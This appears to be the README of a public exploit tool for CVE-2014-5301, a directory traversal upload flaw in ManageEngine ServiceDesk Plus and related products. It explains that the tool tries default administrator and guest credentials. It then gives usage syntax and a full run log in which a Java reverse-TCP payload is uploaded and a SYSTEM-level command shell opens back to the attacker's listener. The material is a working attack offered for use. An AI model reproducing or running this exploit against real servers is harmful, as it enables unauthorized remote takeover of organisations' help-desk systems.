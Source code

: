 # CVE 2014-5301 - ManageEngine ServiceDesk Plus authenticated upload remote command execution exploit.

This module exploits a directory traversal vulnerability in ManageEngine
ServiceDesk, AssetExplorer, SupportCenter and IT360 when uploading attachment files. The JSP that accepts the upload
does not handle correctly '../' sequences, which can be abused to write to the file system. Authentication is needed to
exploit this vulnerability, but this module will attempt to login using the default credentials for the administrator
and guest accounts. Alternatively, you can provide a pre-authenticated cookie or a username / password.
For IT360 targets, enter the RPORT of the ServiceDesk instance (usually 8400). All versions of ServiceDesk
prior v9 build 9031 (including MSP but excluding v4), AssetExplorer, SupportCenter and IT360 (including MSP) are vulnerable.
At the time of release of this module, only ServiceDesk v9 has been fixed in build 9031 and above.
This module has been been tested successfully in Windows and Linux on several versions.


## Usage

```sh
⬢  manage_engine_plus  master ⦿ ./manageengine_sdplus_rce.py 

█▀▄▀█   ▄▀  █▀▄▀█    ▄▄▄▄▄   ██▄   █ ▄▄  █       ▄      ▄▄▄▄▄   █▄▄▄▄ ▄█▄    ▄███▄   
█ █ █ ▄▀    █ █ █   █     ▀▄ █  █  █   █ █        █    █     ▀▄ █  ▄▀ █▀ ▀▄  █▀   ▀  
█ ▄ █ █ ▀▄  █ ▄ █ ▄  ▀▀▀▀▄   █   █ █▀▀▀  █     █   █ ▄  ▀▀▀▀▄   █▀▀▌  █   ▀  ██▄▄    
█   █ █   █ █   █  ▀▄▄▄▄▀    █  █  █     ███▄  █   █  ▀▄▄▄▄▀    █  █  █▄  ▄▀ █▄   ▄▀ 
   █   ███     █             ███▀   █        ▀ █▄ ▄█              █   ▀███▀  ▀███▀   
  ▀           ▀                      ▀          ▀▀▀              ▀                   
CVE-2014-5301 - ManageEngine ServiceDesk Plus Authenticated File Upload Rce Exploit
[nighter@nighter.se]
    
Usage: ./manageengine_sdplus_rce.py <URL> <LHOST> <LPORT> <USERNAME> <PASSWORD>
EXAMPLE: ./manageengine_sdplus_rce.py 'http://10.11.1.xxx:8080' 10.11.0.xxx 4444 <USERNAME> <PASSWORD>
```

Run exploit

```sh
⬢  manage_engine_plus  master ⦿ ./manageengine_sdplus_rce.py 'http://10.11.1.xx:8080' 10.11.0.xxx 4444 administrator administrator
[+] LHOST = 10.11.0.xxx
[+] LPORT = 4444
[+] Start listener
/opt/metasploit/vendor/bundle/ruby/2.6.0/gems/activesupport-4.2.11/lib/active_support/core_ext/object/duplicable.rb:111: warning: BigDecimal.new is deprecated; use BigDecimal() method instead.
[-] ***
[-] * WARNING: No database support: No database YAML file
[-] ***
[*] Starting persistent handler(s)...
[+] Upload payload
[+] Build ear payload: /tmp/TwPRjvJq.ear
PAYLOAD => java/shell/reverse_tcp
LHOST => 10.11.0.xxx
LPORT => 4444
[*] Started reverse TCP handler on 10.11.0.xxx:4444 
/opt/metasploit/vendor/bundle/ruby/2.6.0/gems/activesupport-4.2.11/lib/active_support/core_ext/object/duplicable.rb:111: warning: BigDecimal.new is deprecated; use BigDecimal() method instead.
Payload size: 6257 bytes
Final size of war file: 6257 bytes
Saved as: TwPRjvJq.war
[+] Exploit
[*] Sending stage (2952 bytes) to 10.11.1.xxx
[*] Command shell session 1 opened (10.11.0.xxx:4444 -> 10.11.1.xxx:49206) at 2019-02-13 21:38:29 +0100

C:\ManageEngine\ServiceDesk\bin>whoami
whoami
nt authority\system
```